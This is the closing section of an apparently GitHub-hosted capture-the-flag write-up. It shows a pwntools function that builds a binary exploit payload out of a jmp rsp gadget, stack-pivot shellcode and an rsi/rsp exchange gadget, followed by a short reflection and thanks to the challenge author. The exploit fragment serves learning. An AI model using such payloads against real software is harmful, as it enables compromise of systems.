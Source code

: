 
```
def send_payload():
    payload = 8 * b'\x90' #The pop rbp adds 8 to rsp so this instruction is ignored
    payload += p64(jmp_rsp) #Jmp rsp gadget which allows us to execute code
    payload += asm("sub rsp,0x50; jmp rsp; nop; nop")
    payload += p64(gadget) # exch rsi, rsp; pop rbp; ret

    log.info("sending payload")
    io.sendline(payload)
```

![alt text](./screenshots/pwn.png "pwned")

## Win

Yes, I had a lot of trouble on this challenge and spent a whole night on it. There were no writeups online so I really had to struggle but I learned a lot.

Full exploit is on the repo but you should try to redo it by yourself.

*kisses Pim*

## Thanks
I was really stuck on this challenge and the creator [Razvi](https://twitter.com/Razvieu) had the kindness of helping me ! Thanks to him for his time and for the challenge.